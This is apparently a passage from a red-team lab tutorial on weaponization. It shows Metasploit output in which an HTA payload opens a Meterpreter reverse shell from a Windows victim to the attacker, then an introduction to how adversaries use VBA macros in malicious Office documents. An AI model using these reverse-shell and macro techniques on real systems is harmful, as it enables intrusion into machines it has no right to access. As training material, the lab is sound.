 On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.

```shell
user@machine$ [*] 10.10.201.254    hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to 10.10.201.254
[*] Meterpreter session 1 opened (10.8.232.37:443 -> 10.10.201.254:61629) at 2021-11-16 06:15:46 -0600
msf6 exploit(windows/misc/hta_server) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-1AU6NT4
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > shell
Process 4124 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\app>
```

# Visual Basic for Application - VBA

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft  applications such as Microsoft Word, Excel, PowerPoint, etc. VBA  programming allows automating tasks of nearly every keyboard and mouse  interaction between a user and Microsoft Office applications. 

Macros are Microsoft Office applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes. One of VBA's features is accessing the Windows Application Programming Interface ([API](https://en.wikipedia.org/wiki/Windows_API)) and other low-level functionality. For more information about VBA, visit [here](https://en.wikipedia.org/wiki/Visual_Basic_for_Applications). 

In this task, we will discuss the basics of VBA and the ways the adversary uses macros to create malicious Microsoft documents. To follow up along with the content of this task, make sure to deploy the attached Windows machine in Task 2. When it is ready, it will be available through  in-browser access.

Now open  Microsoft Word 2016 from the Start menu. Once it is opened, we close the product key window since we will use it within the seven-day trial  period.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/2ceed0307819cf06500e6524a5f632d7.png)

 